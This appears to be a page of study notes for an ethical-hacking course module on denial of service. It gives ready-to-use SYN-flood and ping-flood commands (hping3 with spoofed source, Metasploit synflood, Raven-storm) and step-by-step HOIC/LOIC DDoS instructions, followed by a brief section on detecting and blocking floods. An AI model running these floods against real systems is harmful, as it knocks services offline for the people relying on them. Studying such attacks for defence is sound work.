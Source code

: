 # <span style="color: #e84393; font-size: 1em;">Module 10: Denial of Service (DoS)</span>


## <span style="color: #3498db; font-size: 0.8em;">    DoS Attack (SYN Flooding)</span>

> Metasploit
*  auxiliary/dos/tcp/synflood

> hping3
- `hping3 -S IP1 -a IP2 -p port --flood`
IP1 is the target address and IP2 is the spoofable IP

> Raven-storm (Linux)
- rst
- l4
- ip IP
- port PORT
- threads numberThreads
- run


## <span style="color: #3498db; font-size: 0.8em;">    DDoS Attack</span>

> HOIC - High Orbit Ion Cannon (Windows)
- Click the + button
* Type the target URL http://IP
- Select GenericBoost.hoic and click add
- Set the threads value to 20
- Do that on more machines and click on "fire teh lazer"

> LOIC - Low Orbit Ion Cannon (Windows)
- Select the IP and click on lock on
- Select UDP, the theads to 10 and the power bar to the middle
- Do that on more machines and click on IMMA CHARGIN MAH LAZER


## <span style="color: #3498db; font-size: 0.8em;">    PoD (Ping of Death)</span>

> hping3
- hping3 -d dataSize -S -p port --flood IPtarget
- hping3 -2 -p port --flood IPtarget
- -2 specifies the UDP mode


## <span style="color: #3498db; font-size: 0.8em;">    Detect and Protect Against DDoS Attacks</span>

>  Guardian (Windows)
- You can see detail view, packets sent and received from each IP and you can block any of them.
- Launch Anti DDoS Guardian
- In the bottom-right cornert of Desktop, click on show hidden icons
- If there are huge number of packets coming from the same host machines, its a DDoS attack
- You can double-click on any of the sessions and you can block it, clear, allow IP, and more
